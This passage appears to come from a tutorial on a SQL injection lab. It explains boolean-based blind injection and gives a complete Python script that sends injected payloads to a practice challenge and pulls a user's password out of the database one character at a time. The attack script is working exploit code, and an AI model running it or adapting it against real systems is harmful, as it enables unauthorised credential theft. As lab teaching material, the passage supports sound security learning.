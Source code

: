![Boolean_substring_3](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Boolean_substring_3.png)

We can see the first and second characters of `user()` is `bl`. But doing this manually is tough, so, I create a script to automate the process.

```python
import requests

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36"
}
url = "https://livelabs.0x4148.com/challenges/boolean_1/"
target_text = "A password reset email has been sent."

# Determine the length of the query result
query_length = 0
query = "select password from users limit 1"
for i in range(1, 100):
    payload = f"username=admin' and length(({query}))={i} and 1='1&reset_password="
    response = requests.post(url, headers=headers, data=payload)
    if target_text in response.text:
        query_length = i
        print(f"Query result length: {query_length}")
        break

if query_length == 0:
    print("Failed to determine query result length.")
    exit(1)

# Extract the query result
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()_+[]{}|;:,.<>?/`~-=\\\"' "
flag = ""
for position in range(1, query_length + 1):
    for char in chars:
        payload = f"username=admin' and substring(({query}),{position},1)='{char}&reset_password="
        response = requests.post(url, headers=headers, data=payload)
        if target_text in response.text:
            flag += char
            print(f"Extracted so far: {flag}")
            break

print(f"Extracted query result: {flag}")
```